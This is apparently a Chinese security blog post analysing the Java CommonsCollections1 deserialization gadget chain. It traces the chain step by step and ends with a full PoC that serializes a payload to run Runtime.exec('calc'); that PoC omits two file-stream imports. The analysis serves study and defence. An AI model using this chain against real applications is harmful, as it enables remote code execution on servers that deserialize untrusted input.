[toc]


>   http://elssm.top/2021/10/27/Java-CC1%E9%93%BE%E5%A4%8D%E7%8E%B0%E4%B8%8E%E5%88%86%E6%9E%90/
>
>   https://xz.aliyun.com/t/7031

# CommonsCollections1

这里首先使用p牛进行简化后的代码来测试，直接读[ysoserial](https://github.com/frohoff/ysoserial)源码不太友好。

```java
package ysoserial.payloads;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class cc1demo {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.getRuntime()),
            new InvokerTransformer("exec",
                new Class[]{String.class},
                new Object[]{"calc"}),};

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

## 用到的接口和类

### TransformedMap

TransformedMap用于对Map做一个修饰，被修饰的Map在进行put时，会执行一次回调。

```java
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
outerMap.put("test", "xxxx");
```

这里的回调和平常的回调函数不同，这里的回调指的是一个实现了`Transformed`接口的类。

### Transformer

一个接口，有一个方法待实现：

```java
public interface Transformer {
    Object transform(Object var1);
}
```

这里的`transform`方法就是上面说的回调。

### ConstantTransformer

实现了Transformer接口的一个类：



主要起的就是一个包装的作用，构造的时候传入一个对象，`transform`的时候返回这个对象。

作用就是在回调的时候返回一个对象。

### InvokerTransformer

也实现了`Transformer`的`transform`接口：



构造的时候传入三个参数，方法名，参数类型，参数列表。

后面的`transform`中，得到input对象的类，之后使用`getMethod`得到`iMethodName`给`method`：



之后使用invoke执行，成功弹窗：



### ChainedTransformer

弹窗时发现使用的是`ChainedTransformer`的`transform`方法。

当然和前面的一样，也实现了`transform`方法。

作用就是将内部的多个Transformer串在一起，示意图如下：



代码的实现也是很简单：



## 流程分析

看完上面的接口和类之后exp就看的懂的七七八八了，下面详细再跟一下。

首先new了transform的数组，一个ConstantTransformer，一个InvokerTransformer

```java
Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.getRuntime()),
            new InvokerTransformer("exec",
                new Class[]{String.class},
                new Object[]{"calc"}),};
```

放到ChainedTransformer里面：

`Transformer transformerChain = new ChainedTransformer(transformers);`

第一个`ConstantTransformer`用来返回`Runtime`对象，第二个用来执行`Runtime`的exec方法。

这样在`transformerChain`中只是一个个的回调，如何触发？执行put即可。

put会执行`transformKey`和`transformValue`，而重点是`transformValue`，这里的`transformValue`是`TransformedMap`类的


`transformValue`：，会执行transform，这个是`ChainedTransformer`类的



`transform`，也是`ChainedTransformer`类中的



第一次执行的是`ConstantTransformer.transform`，第二次执行`InvokerTransformer.transform`

-   `ConstantTransformer.transform`：返回构造时传入的对象：runtime

-   `InvokerTransformer.transform`：用于执行。

## 使用TransformedMap编写poc

>   首先说一下，，下面的代码运行环境在8u71之前，我用的8u60，至于为什么要用8u71之前的，后面会写吧应该。

上面的demo程序离真正可用还有很大距离，下面修改。

在上面的demo中，使用Map的put进行触发漏洞，想要反序列化时显然不能，没有继承serialize，当然也没有readObject。

于是将目标放到这么一个类上：`AnnotationInvocationHandler`

因为rt里面直接放的是class文件，在github上搜下源码：



>   memberValues就是反序列化后得到的Map，也是经过了TransformedMap修饰的对象，这里遍历了它 的所有元素，并依次设置值。

调用setvalue的时候，会执行TransformedMap里的`checkSetValue()`



然后执行`transform`。

整个调用链：

```
Gadget chain:
	ObjectInputStream.readObject()
		AnnotationInvocationHandler.readObject()
			Map.Entry.setValue()
			  TransformedMap.checkSetValue()
						ChainedTransformer.transform()
							ConstantTransformer.transform()
							InvokerTransformer.transform()
								Method.invoke()
									Class.getMethod()
							InvokerTransformer.transform()
								Method.invoke()
									Runtime.getRuntime()
							InvokerTransformer.transform()
								Method.invoke()
									Runtime.exec()

```

## poc

`AnnotationInvocationHandler`不是public，不能直接获取，反射获取。

```java
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
    Map map = new HashMap<>();
    map.put("key","value");
    Map transformedMap = TransformedMap.decorate(map,null,invokerTransformer);

    Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor annotationInvocationHandler = c.getDeclaredConstructor(Class.class,Map.class);
    annotationInvocationHandler.setAccessible(true);
```

这里会有几个问题，`runtime`没有继承`Serializable`，需要反射实现。



在setValue之前，有两个if判断需要绕过。

首先解决runtime反射：

```java
        Class c = Runtime.class; //通过反射获取到字节码对象
        Method getRuntimeMethod = c.getMethod("getRuntime", null); //获取getRuntime静态方法
        Runtime r = (Runtime) getRuntimeMethod.invoke(null, null); //获取Runtime对象
        Method execMethod = c.getMethod("exec", String.class); //反射调用exec方法
        execMethod.invoke(r,"calc");
```

写成`Transformer`的形式

```java
        Transformer[] transformers = new Transformer[]{
            	new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
      	                new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new String[]{"calc"}),};
		Transformer transformerChain = new ChainedTransformer(transformers);
```

下面解决两个if的问题：

P牛给的解释：

>   两个条件： 
>
>   1.   sun.reflect.annotation.AnnotationInvocationHandler 构造函数的第一个参数必须是 Annotation的子类，且其中必须含有至少一个方法，假设方法名是X 
>   2.   被 TransformedMap.decorate 修饰的Map中必须有一个键名为X的元素

第一个if会遍历传入Map的键值给`name`，之后使用`memberTypes.get()`得到name，先使用`Override.class`测试下，可以看到这里var7为空，并没有绕过



Override中没有成员方法，get的时候就拿不到任何值，得到的`memberType`就为空：



那就找几个有成员方法的：有很多，可以传`Retention.class，Target.class`等，这些类里面都成员方法：





并不是这样就完了，还需要put传键名为上面找到某个类的方法名：`innerMap.put("value", "xxxx");`

最终POC：

```java
package com.yutao.day8;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
//import sun.reflect.annotation.AnnotationInvocationHandler;
//import javax.xml.transform.Transformer;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new String[]{"calc"}),};
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
       	InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);

        FileOutputStream barr = new FileOutputStream("11.ser");
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);

        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("11.ser"));
        Object o = (Object) ois.readObject();
    }
}
```

